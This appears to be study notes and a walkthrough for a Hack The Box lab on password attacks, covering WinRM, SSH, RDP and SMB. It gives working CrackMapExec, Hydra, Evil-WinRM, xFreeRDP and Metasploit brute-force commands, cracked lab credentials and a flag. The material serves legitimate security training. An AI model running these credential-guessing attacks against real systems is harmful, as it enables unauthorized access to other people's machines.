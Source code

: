 
#### WINRM

>[! Note ]
> It is a network protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems. It takes care of the communication between [Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`) and the [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`).


#### CrackMapExec

>[! Note ]
> Can be used for SMB, LDAP, MSSQL and others

**Usage**
`crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`

Example:
```go
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

Example:
```go
crackmapexec smb 10.129.42.197 -u user.list -p password.list --shares
```

#### Evil-WinRM

Allows you to communicate with WinRM 

**Usage**
`evil-winrm -i <target-IP> -u <username> -p <password>`

Example:
```go
evil-winrm -i 10.129.42.197 -u user -p password
```

#### Hydra

**Hydra-SSH**
```go
hydra -L user.list -P password.list ssh://10.129.42.197
```

Hydra-RDP
```go
hydra -L user.list -P password.list rdp://10.129.42.197
```

Hydra-SMB
```go
hydra -L user.list -P password.list smb://10.129.42.197
```

#### xFreeRDP
```go
xfreerdp /v:10.129.42.197 /u:user /p:password
```

>[! Warning]
>
> If you can encounter an error while compilingHydra to crack an SMB password, you can re-compile or use metasploit's `auxiliary/scanner/smb/smb_login` 

### Questions

IP
```go
10.129.249.226
```

SSH
```go
ssh USERNAME@10.129.249.226
```

### Question 1

Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

#### Crackmapexec

```go
crackmapexec winrm 10.129.219.222 -u username.list -p password.list
```

Found the credentials!
```go
john:november
```

Use evil-winrm to log into the machine
```go
evil-winrm -i 10.129.219.222 -u john -p november
```

### Question 2

Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer

IP
```
10.129.219.222
```

```go
hydra -L username.list -P password.list ssh://10.129.219.222
```

Credentials
```go
dennis:rockstar
```

### Question 3

 Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```go
hydra -L username.list -P password.list rdp://10.129.219.222
```

Credentials
```go
chris:78956123
```

```go
xfreerdp /v:10.129.219.222 /u:chris /p:78956123 /dynamic-resolution /cert:ignore /log-level:DEBUG
```

### Question 4

Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```go
crackmapexec smb 10.129.219.222 -u username.list -p password.list --shares
```

Credentials
```go
john:november
```

```go
smbclient -U john \\\\10.129.219.222\\CASSIE
```

Won't let me access

#### MSFCONSOLE
```go
use auxiliary/scanner/smb/smb_login
```

```go
options
```

```go
set user_file username.list
```

```go
set pass_file password.list
```

```go
set rhosts 10.129.219.222
```

This will show the share `CASSIE` is available, indicating the user `cassie` has access

Credentials

```go
cassie:12345678910
```

```go
smbclient -U cassie '\\10.129.219.222\CASSIE'
```

HTB{R3m0t3DeskIsw4yT00easy}
